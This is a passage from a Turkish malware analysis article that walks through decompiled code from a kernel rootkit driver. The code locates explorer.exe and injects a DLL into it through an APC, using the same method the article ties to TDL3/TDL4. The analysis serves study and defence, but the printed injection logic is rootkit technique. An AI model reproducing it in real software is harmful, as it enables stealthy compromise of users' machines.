     }
    else if ( Create )  // Enjeksiyon yapılmamış, peki şu an bir işlem oluşturuluyor mu?
    {
      if ( HideGetProcessIdByName(L"explorer.exe", &ProcessId) >= 0 ) //evet, explorer.exe'nin belirtecini bul
      {
        explorerId = ProcessId;         // belirteci genel değişkene koy
        KeSetEvent(&InjectEvent, 0, 0); // explorer'ı buldugunu belirtmek icin olayı sinyalle
      }
    }

Son olarak DLL enjeksiyonunun gerçekleşebilmesi için `InjectEvent` isimli olay nesnesi üzerinde bekleme yapılıyor. Yukarıda görülebileceği gibi bu olay nesnesi `explorer.exe` işleminin IDsi alındığında sinyalleniyor. Bu olay nesnesi ise biraz önce işlemciği oluşturulan `DllControlThread` isimli fonksiyonda bekleniyor, bekleme tamamlandığında ise explorer.exe işlemine DLL enjeksiyonu gerçekleştiriliyor:

    while ( 1 )
    {
      KeWaitForSingleObject(StartContext + 52, 0, 0, 0, 0);    // StartContext+52 = InjectEvent 
      DelayThread(0x7D0u);
      if ( (LoadDll(*(StartContext + 11)) & 0x80000000) != 0 ) // LoadDll parametresi explorer.exe'nin belirteci
      {
        *(StartContext + 11) = 0; // Durum başarısız
      }
      else
      {
        *(StartContext + 40) = 1;  // Başarılı
        if ( debugLevel >= 5 )
        {
          DbgPrint("HIDEDRV: ");
          DbgPrint("DllControlThread: Dll injected success in 0x%x\n", *(StartContext + 11));
        }
      }
      
      KeClearEvent((StartContext + 52)); // InjectEvent olayını temizle
    }

DLL enjeksiyonu için TDL3/TDL4 rootkitlerinde kullanılan *APC* yöntemi burada da kullanılıyor (APC nedir bakmak için önceki yazılara göz atabilirsiniz). Buradaki esas önemli fonksiyon `LoadDll()` fonksiyonu. Yaptığı şey ise oldukça basit, öncelikle **explorer** işleminde uyarılabilir bir işlemcik buluyor. Bunu yapmasının sebebi APCnin hemen işleneceğinden emin olmak. Ardından *APC* ile *DLL* enjeksiyonu yapmak için **explorer** işleminin bağlam alanına geçiliyor (`KeStackAttachProcess()` ve `KeUnstackDetachProcess()` fonksiyonları yardımıyla) çünkü bildiğiniz gibi işletim sistemindeki işlemler birbirinden izole durumdadırlar. Bu nedenle bir işlemin bağlam alanının X adresinde "*gardırop fuat*" verisi varken başka bir işlemin yine aynı X adresinde "*armut*" verisi olabilir. Ardından `kernel32.dll` isimli DLL dosyasının adresi elde ediliyor, sonra bu DLL içerisinden `LoadLibraryW` fonksiyonunun adresi alınıyor:
